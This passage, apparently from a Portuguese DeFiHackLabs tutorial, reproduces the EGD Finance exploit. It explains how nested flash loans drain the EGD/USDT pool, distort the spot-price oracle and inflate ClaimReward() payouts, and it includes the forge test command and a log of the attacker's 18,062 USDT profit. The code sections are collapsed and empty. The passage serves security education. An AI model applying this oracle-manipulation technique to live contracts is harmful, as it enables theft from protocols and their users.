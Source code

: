 Vamos analisar a função `getEGDPrice()` para entender o mecanismo de preço.

Você pode ver que o mecanismo de alimentação de preços usa a fórmula `x * y = k`, como descrito em nossa introdução ao ***Princípio do Oráculo de Preços***.

O endereço do `par` é `0xa361-Cake-LP`, que pode ser associado às duas chamadas STATICCALL que vemos no Tx View.

Então, como exatamente os atacantes aproveitam essa referência de preço insegura para manipular os preços?

O princípio é que, ao realizar um empréstimo relâmpago de segunda camada, o atacante empresta USDT para o `Par EGD/USDT`; antes que o atacante pague de volta, as informações de preço obtidas pelo `getEGDPrice()` serão incorretas.

Consulte o diagrama ilustrativo:

**Resumo: Através de empréstimos relâmpago, os atacantes retiram a liquidez do oráculo de preços, fazendo com que o `ClaimReward()` obtenha uma referência de preço incorreta, permitindo assim que os atacantes recebam uma quantidade anormalmente grande de tokens EGD.**

Após obter uma grande quantidade de tokens EGD por meio da vulnerabilidade, os atacantes trocam os tokens EGD de volta por USDT por meio do Pancakeswap, realizando o lucro.

---

Até agora, analisamos completamente o princípio do ataque. Vamos concluir o Código de Reprodução:

Passo 4. Concluir a lógica do primeiro empréstimo relâmpago

<details><summary>Clique para expandir o código</summary></details>
<br>

Passo 5. Conclua o código lógico para a segunda exploração de empréstimo relâmpago (exploit)

<details><summary>Clique para ver o código</summary></details>
<br>

Se tudo correr bem, o comando `forge test --contracts ./src/test/EGD-Finance.exp.sol -vvv` mostrará que a execução do Reproduce e o saldo foram alterados.

[DeFiHackLabs - EGD-Finance.exp.sol](/src/test/EGD-Finance.exp.sol)

```
Executando 1 teste para src/test/EGD-Finance.exp.sol:Atacante
[PASS] testExploit() (gas: 537204)
Logs:
  --------------------  Preparação, apostando 10 USDT no EGD Finance --------------------
  Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8
  Atacante aposta 10 USDT no EGD Finance
  -------------------------------- Início do Exploit ----------------------------------
  [Início] Saldo USDT do Atacante: 0.000000000000000000
  [INFO] Preço EGD/USDT antes da manipulação de preço: 0.008096310933284567
  [INFO] Recompensa atual (token EGD): 0.000341874999999972
  Atacante manipulando o oráculo de preço do EGD Finance...
  Flashloan[1] : emprestou 2.000 USDT do reservatório USDT/WBNB LPPool
  Flashloan[1] recebido
  Flashloan[2] : emprestou 99.99999925% USDT do reservatório EGD/USDT LPPool
  Flashloan[2] recebido
  [INFO] Preço EGD/USDT após manipulação de preço: 0.000000000060722331
  Reivindicar todas as recompensas de token EGD do contrato EGD Finance
  [INFO] Obter recompensa (token EGD): 5630136.300267721935770000
  Flashloan[2] pagamento bem-sucedido
  Trocar o lucro...
  Flashloan[1] pagamento bem-sucedido
  -------------------------------- Fim do Exploit ----------------------------------
  [Fim] Saldo USDT do Atacante: 18062.915446991996902763

Resultado do teste: ok. 1 passou; 0 falhou; concluído em 1.66s
```
